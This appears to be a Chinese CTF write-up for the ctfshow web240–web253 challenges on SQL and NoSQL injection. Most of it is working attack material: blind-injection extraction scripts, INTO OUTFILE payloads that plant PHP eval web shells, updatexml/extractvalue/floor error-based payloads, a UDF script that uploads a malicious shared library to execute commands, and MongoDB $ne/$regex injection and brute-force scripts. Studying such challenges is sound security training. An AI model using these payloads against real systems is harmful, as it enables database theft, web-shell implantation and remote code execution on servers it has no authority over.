查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //过滤空格 or sys mysql
```

根据hint可以知道是要爆破表名

拿y4✌的脚本改一下

```
"""
Author:Y4tacker
"""
import random
import requests

url = "http://0a7a5c02-0a05-4efe-86f5-fcf36464cc74.challenge.ctf.show"
url_insert = url + "/api/insert.php"
url_flag = url + "/api/?page=1&limit=1000"


# 看命函数
def generate_random_str():
    sttr = 'ab'
    str_list = [random.choice(sttr) for i in range(5)]
    random_str = ''.join(str_list)
    return random_str


while 1:
    data = {
        'username': f"1',(select(flag)from(flag{generate_random_str()})))#",
        'password': ""
    }
    r = requests.post(url_insert, data=data)
    r2 = requests.get(url_flag)
    if "ctfshow{" in r2.text:
        for i in r2.json()['data']:
            if  "ctfshow{" in i['pass']:
                print(i['pass'])
                break
        break

```


#### web241

```
sql语句

  //删除记录
  $sql = "delete from  ctfshow_user where id = {$id}";
      
返回逻辑

  //无过滤
```

delete注入，delete函数顾名思义就是从数据库中删除内容

注入点在where后面，可以采用时间盲注或者布尔盲注，但是由于delete会删除数据库中的记录，所以可能会出现记录都删完了但是flag还没注出来的情况

```python
import requests
import time
url = 'http://40c66eef-72b4-4b08-88d0-87bef44b640e.challenge.ctf.show/api/delete.php'
str = ''
for i in range(1, 60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = {
        #     'id': f'if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.03),1)#'
        # }
        # 爆列
        # payload = {
        #     'id': f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{i},1))<{j},sleep(0.03),1)#"
        # }
        # 爆值
        payload = {
            'id': f"if(ascii(substr((select group_concat(flag) from flag),{i},1))<{j},sleep(0.03),1)#"
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.2:
            max = j
        else:
            min = j
```

为什么sleep设定的是0.03，但是超时时间是大于0.2呢

那是因为要对所有记录都算一遍 if

那我们怎么测试这个时间呢，这里放一个大佬的脚本

[Practice - CTFSHOW WEB入门 SQL注入篇](https://hextuff.dev/2021/07/29/ctfshow-web-getting-started-sql-injection/)

```
url = 'http://58e7b03f-3c20-48e0-a8f8-9a3efa102f6d.challenge.ctf.show:8080/api/delete.php'


def test2() -> float:
    rand = random.random()
    time_s = time.time()
    _ = requests.post(url,data={"id": f"if({1 if rand > 0.5 else 0},sleep(0.05),0)"})
    time_e = time.time()
    return (rand > 0.5, time_e - time_s)

print([test() for _ in range(30)])
```

我测出来的结果

```
[(False, 0.09313225746154785), (True, 1.087439775466919), (True, 1.599609375), (True, 1.6065845489501953), (True, 1.6024441719055176), (False, 0.5998048782348633), (False, 0.0730128288269043), (True, 1.0801937580108643), (True, 1.6085357666015625), (False, 0.1298365592956543), (True, 1.089057445526123), (False, 0.6771323680877686), (True, 1.0864779949188232), (True, 1.6023609638214111), (False, 0.07814288139343262), (False, 0.07692098617553711), (False, 0.07593393325805664), (True, 1.082731008529663), (False, 0.07544946670532227), (True, 1.606881856918335), (True, 1.609898567199707), (False, 0.08498406410217285), (True, 1.0778491497039795), (True, 1.0797111988067627), (True, 1.0858359336853027), (False, 0.08560538291931152), (False, 0.08359408378601074), (False, 0.08201932907104492), (False, 0.07815837860107422), (True, 1.085575819015503)]
```

在false和true之间选取一个合适的值即可，目的是能够进行区分，我这里选取了0.2


#### 文件注入

#### web242

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //无过滤

```

```
outfile的语法

SELECT ... INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        [export_options]

export_options:
    [{FIELDS | COLUMNS}
        [TERMINATED BY 'string']//分隔符
        [[OPTIONALLY] ENCLOSED BY 'char']
        [ESCAPED BY 'char']
    ]
    [LINES
        [STARTING BY 'string']
        [TERMINATED BY 'string']
    ]

----------------------------------------------------
“OPTION”参数为可选参数选项，其可能的取值有：

FIELDS TERMINATED BY '字符串'：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。

FIELDS ENCLOSED BY '字符'：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。

FIELDS OPTIONALLY ENCLOSED BY '字符'：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况下不使用任何符号。

FIELDS ESCAPED BY '字符'：设置转义字符，只能为单个字符。默认值为“\”。

LINES STARTING BY '字符串'：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。

LINES TERMINATED BY '字符串'：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。

```

漏洞的注入点是由于数据库的导出功能



根据这个我们可以写入一句话木马

payload:

```
filename=1.php' LINES STARTING BY '<?php eval($_POST[1]);?>'#
```






#### web243

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //过滤了php

```

尝试一下.user.ini文件包含

```
filename=.user.ini' lines starting by 'auto_prepend_file=1.txt\n'%23
filename=1.txt' lines starting by '<?=eval($_POST[1])?>'%23
```




#### 报错注入

[新手小白入门——SQL注入之报错注入_sql注入报错注入-CSDN博客](https://blog.csdn.net/2401_89233381/article/details/144308798)

#### web244

```
sql语句

  //备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
```

updatexml报错注入

payload

```
/api/?id=' or updatexml(1, concat(0x7e, database(), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema = database() limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 1, 30) from ctfshow_flag), 0x7e), 1)%23
#ctfshow{89982b11-5c7d-4215-a78
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 31, 30) from ctfshow_flag), 0x7e), 1)%23
#9-a9f8ecc8f1b1}
# 数据长度有限制，可以使用substr来截取


//ctfshow{89982b11-5c7d-4215-a789-a9f8ecc8f1b1}

```


#### web245

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml
```

extractvalue报错注入

payload

```
查数据库名：id=' and (select extractvalue(1,concat(0x7e,(select database()))))%23

爆表名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))%23
//ctfshow_flagsa

爆字段名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagsa"))))%23
//flag1

爆数据：
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),1,30) from ctfshow_flagsa))))%23
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),31,30) from ctfshow_flagsa))))%23

//ctfshow{41446106-c47e-434d-a0c0-16ee43375249}
```


#### web246

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue
```

floor报错注入

原理：[SQL注入报错注入之floor()报错注入原理分析_sql注入floor-CSDN博客](https://blog.csdn.net/miraclehw/article/details/129250360)

```
#获取表名
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取列名
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flags'  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (flag2) from ctfshow_flags  limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
```


#### web247

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue floor
```

这道题floor函数也被ban掉了

根据floor报错注入的原理，其实我们可以知道，之所以会出现错误主要是因为用floor对rand(0)*2进行取整，目的输出011011...的结果，而既然这样我们只需要找一个同样能进行取整的函数来代替floor就ok了

除了floor之外，我们还能使用round，ceil等

payload

```
查表 
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查列 
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flagsa'  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查数据 
1' union select 1,count(*),concat(0x3a,0x3a,(select (`flag?`) from ctfshow_flagsa  limit 0,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
```


#### web248

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤,
```

UDF注入

[ctfshow-web入门-sql注入-web248-UDF 注入_ctfshow web248-CSDN博客](https://blog.csdn.net/Myon5/article/details/142146339)

我们需要将 UDF 的动态链接库文件（xxx.dll文件）放到 MySQL 的检索目录下才能创建自定义函数，对于不同版本的 mysql，检索目录是不同的：

> MySQL < 5.0	导出路径随意；
> 5.0 <= MySQL< 5.1	需要导出至目标服务器的系统目录（如：c:/windows/system32/）
> 5.1 < MySQL	必须导出到MySQL安装目录下的lib\plugin文件夹下

堆叠注入查版本

```
/api/?id=0';select version();%23
```



大于5.1，接着要查目录路径

```
/api/?id=0';select @@plugin_dir;%23
```



```
/usr/lib/mariadb/plugin
```

拿到路径，我们接下来就可以传入我们的恶意so文件了

sqlmap中有已经写好的 udf 文件

如，lib_mysqludf_sys_64.so



但是由于get传参有长度限制，我们需要进行分段传参

放一个国外大佬的脚本，将udf文件分段上传后再进行合并即可

```
import requests
url="http://449c0852-2873-4a47-9eb4-a854915a6b40.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
    udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
    url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
    requests.get(url1)

#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)

#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
```


#### web249

```php
sql语句

  //无
  $user = $memcache->get($id);
      
返回逻辑

  //无过滤

```



payload:

```
?id[]=flag
```


#### web250

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

[ctfshow-web入门-sql注入（web249-web253）nosql 注入_ctfshow web250-CSDN博客](https://blog.csdn.net/Myon5/article/details/142187219)



在这些操作符中，\$ne 就是我们在**重言式注入**中需要利用到的那个，它的作用是将不等于指定值的数据都查询出来，比如 \$ne=1 时就是将所有不等于 1 的数据都查询出来。

所以payload就是

```
username[$ne]=1&password[$ne]=1
```

环境好像有点问题（？）前两次一直查不出来


#### web251

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

同样是

```
username[$ne]=1&password[$ne]=1
```



继续用上一题的 payload，返回 admin 的密码，但是这次的密码里没有 flag

可能flag在其他用户的密码里，我们禁用admin

```
username[$ne]=admin&password[$ne]=1
```



拿到flag


#### web252

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
      
```

这题有很多不同的username

我们可以考虑采用正则匹配来筛选

```
username[$ne]=1&password[$regex]=ctfshow{
```

or

用$gt （大于）一直尝试知道拿到有flag的用户

```
username[$ne]=admin&password[$ne]=1
username[$gt]=admin1&password[$ne]=1
username[$gt]=admin2&password[$ne]=1
username[$gt]=admin3&password[$ne]=1
```

or

正则匹配去掉所有为admin开头的用户

```
username[$regex]=^[^admin].*$&password[$ne]=1
```


#### web253

```php
sql语句

  //sql
  db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

##### 方法一

[CTFSHOW WEB入门 SQL注入篇 - b477eRy - 博客园](https://www.cnblogs.com/recharging-runtime/p/15077477.html)

猜测到id为flag，直接布尔盲注拿到flag

```
import string

import requests

url = "http://5ce4ea0d-afb5-4f1c-9e65-626bdaa6e433.challenge.ctf.show:8080/api/"

letters = "{}-_" + string.ascii_lowercase + string.digits


def valid_pass(password: str) -> bool:
    data = {
        "username[$regex]": "flag",
        "password[$regex]": f"{password}.*"
    }
    response = requests.post(url, data=data)
    return "登陆成功" in response.json()["msg"]


result = ""

while True:
    for letter in letters:
        if valid_pass(result + letter):
            result += letter
            print(f"[*] result: {result}")
            break
```


##### 方法二

```
import requests, time, json


def brute(action, username=""):
    url = "http://44e163eb-3f69-4641-83b2-5499d9c0d5ed.challenge.ctf.show/api/"
    if action == "username":
        res = "^[^a]"  # admin1的password为ctfshow666...很明显不是flag，所以禁掉admin开头的用户
    else:
        res = "^ctfshow{"
    for j in range(30):
        flag = False
        for i in range(127):
            reg = res
            if chr(i) not in "0123456789abcdefghijklmnopqrstuvwxyz-{}:,_":
                continue
            n = chr(i)
            if chr(i) in "-{}:":
                n = "\\"+chr(i)
            print(chr(i))
            if action == "username":
                data = {"username[$regex]": f"{reg+n}", "password[$ne]": f"1"}
            else:
                data = {"username[$regex]": f"{username}$", "password[$regex]": f"{reg+n}"}
            while True:
                try:
                    r = requests.post(url, data=data, timeout=7)
                    break
                except TimeoutError:
                    time.sleep(0.1)
                except KeyboardInterrupt:
                    exit(0)
            try:
                resp = json.loads(r.text)
            except:
                resp = None
                continue
            if resp["msg"] == "\u767b\u9646\u6210\u529f":
                res += chr(i)
                flag = True
                break
        if not flag:
            break
        print(res)
    return res


if __name__ == '__main__':
    username = brute("username")
    print(f"用户名为: {username}")
    password = brute("password", username)
    print(f"用户名: {username}\n密码: {password}")
```